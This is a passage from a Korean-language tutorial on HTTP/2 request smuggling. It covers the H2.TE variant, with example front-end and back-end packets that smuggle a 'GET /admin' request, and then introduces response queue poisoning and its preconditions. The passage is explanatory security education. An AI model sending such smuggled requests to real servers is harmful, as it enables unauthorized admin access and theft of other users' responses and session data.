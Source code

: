 ## 🔸 02-02. H2.TE 취약점

Transfer-Encoding 헤더는 HTTP/2 와 호환되지 않으며 제거할 것을 권장하고 있으나 **제거를 하지 않을 경우, Back-end 서버에서 Smuggling 공격에 취약해질 수 있습니다.** 

아래와 같이 패킷을 보낼 경우, 

**✉ Front-end (HTTP/2)**

```
:method            |    POST
:path              |    /example
:authority         |    test.com
content-type       |    applicataion/x-www-form-urlencoded
transfer-encoding| |    chunked

0

GET /admin HTTP/1.1
Host: test.com
foo:bar
```
1) 다운그레이드 된 패킷이 Back-end 에서 분할되고 뒷 부분의 Smuggling 된 /admin 페이지 요청 패킷이 다음 요청을 대기하게 됩니다. 

2) 임의의 후속 패킷이 도착하면 대기하고 있던 패킷과 결합되어 /admin 페이지를 응답하게 됩니다. 결합된 패킷은 다음과 같은 형태가 됩니다.

**✉ Back-end (HTTP/1)**

```
POST /example HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Host: vulnerable-website.com
Foo: bar
```

> H2.CL, H2.TE에 취약할 경우 이전 HTTP/1.1 에서 사용했던 공격 방법을 그대로 사용할 수 있습니다.

## 🔸 02-03. Response queue poisoning

Response queue Poisioning은 완전한 형태의 요청 패킷을 Smuggling하여 타 사용자가 요청 패킷을 보냈을 때 이전의 응답 패킷을 전송토록 하는 공격입니다. 해당 공격을 수행하여 타 사용자의 응답 패킷과 패킷 내의 세션 값, 중요 정보 등을 볼 수 있습니다. 또한 공격을 받고 한동안 웹 사이트의 사용자들이 요청에 대한 엉뚱한 응답 패킷을 받게 되므로 가용성에 영향을 끼치게 됩니다.

Response queue Poisioning은 3가지 조건이 필요합니다.
>
- Front-end와 Back-end 간의 연결은 여러 요청/응답에 재사용됩니다.
- Back-end에서 타인과 구별할 수 있는, 고유한 응답을 받을 수 있도록 요청 패킷을 Smuggling 할 수 있습니다.
- 잘못된 요청이 Front, Back-end 서버에 전송되더라도 연결이 종료되지 않아야 합니다.
